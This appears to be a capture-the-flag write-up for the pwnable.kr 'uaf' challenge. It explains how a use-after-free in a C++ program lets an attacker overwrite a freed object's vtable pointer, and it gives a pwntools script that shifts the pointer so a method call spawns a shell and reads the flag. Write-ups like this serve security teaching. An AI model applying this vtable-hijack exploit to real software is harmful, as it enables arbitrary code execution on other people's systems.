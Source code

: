 Note: a vtable is associated to a class, and allocated objects of the class in the heap (with the new keyword) will include a chunk containing their vtable address. vtables are present in the binary. 

When we want to call functions defined inside the class, their addresses will be found in the vtable corresponding to the address present in the object's heap chunk.

In this challenge, after freeing the chunks, we can overwrite the chunks of size ``0x20`` (that contain vtable address) by the content of the file passed in ``argv[2]``. We will specify a size of 0x18 to ensure it is the ``0x20``-sized chunks that are going to be reused (0x18 will be 16-bit aligned to 0x20).

Moreover, we have a use after free vulnerability: ``m->introduce`` (supposed to call ``Man::introduce``) can still be called after the free. We are going to exploit this by modifying the address of the vtable used by the ``m`` object, thus to make it call the ``give_shell`` function.

``introduce`` is the second function for Man vtable. We have:
``*(man_vtable+0x10)``   is ``give_shell`` address
``*(man_vtable+0x10+8)`` is ``introduce``  address

Note: first function in the vtable is after a 0x10 offset. In the heap, it is ``vtable+0x10`` that is stored.

If we decrease ``(vtable+0x10)`` address by 8, trying to call ``m->introduce`` will result in calling ``m->give_shell``.

first function of the old vtable (give_shell) :
```python
old_vtable_1F =  elf.symbols["_ZTV3Man"]+0x10```
give_shell takes the place of introduce as second function :
```python
new_vtable_1F =  old_vtable_1F-8
```

```python
from pwn import *
elf = ELF("uaf")
shell = ssh("uaf", "pwnable.kr", password="guest", port=2222)
wp = shell.process(["cat", "/dev/stdin", ">>", "/tmp/payload"])
wp.send(p64(new_vtable_1F))
wp.close()

p = shell.process(["./uaf", "24", "/tmp/payload"])
print p.recv()
p.sendline("3") 
print p.recv()
p.sendline("2") 
```
It's w heap chunk that is going to be reused the first time. So we have to store the payload twice, since ``m->introduce`` is called before ``w->introduce``
```python
print p.recv()
p.sendline("2")
print p.recv()
p.sendline("1")
print p.recv()
p.sendline("cat flag")
print p.recv()
```
